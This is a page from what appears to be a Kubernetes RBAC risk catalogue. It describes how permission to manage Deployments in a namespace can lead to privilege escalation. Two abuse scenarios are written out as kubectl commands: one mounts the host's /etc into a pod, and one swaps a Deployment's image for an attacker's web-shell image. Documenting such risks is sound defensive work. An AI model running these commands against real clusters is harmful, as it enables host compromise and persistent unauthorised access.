 ```yaml
---
id: 1034
title: "Manage Deployments in a namespace (potential for privileged pod execution)"
description: "Grants permission to create, update, or delete Deployments within a specific namespace. This can be used to deploy pods with privileged settings within that namespace, potentially leading to privilege escalation, persistence, and tampering with applications."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1034                                                                                                                         |
| Name          | Manage Deployments in a namespace (potential for privileged pod execution)                                                   |
| Risk Category | Elevation of Privilege                                                                                                       |
| Risk Level    | {{< risk High >}}                                                                                                            |
| Role Type     | Role                                                                                                                         |
| API Groups    | apps                                                                                                                         |
| Resources     | deployments                                                                                                                  |
| Verbs         | create, update, patch, delete                                                                                                |
| Tags          | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Grants permission to create, update, or delete Deployments within a specific namespace. This can be used to deploy pods with privileged settings within that namespace, potentially leading to privilege escalation, persistence, and tampering with applications.

## Abuse Scenarios

1. Create a new Deployment with a hostPath mount in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: hostpath-deployment
spec:
  replicas: 1
  selector:
    matchLabels:
      app: hostpath-app
  template:
    metadata:
      labels:
        app: hostpath-app
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-etc
          name: host-etc
      volumes:
      - name: host-etc
        hostPath:
          path: /etc
EOF
# Example: kubectl create -n development -f - <<EOF ... EOF

```

2. Update an existing Deployment's image to a malicious one.

```bash
kubectl set image deployment/<deployment-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image deployment/my-web-app web=attacker/web-shell -n default

```
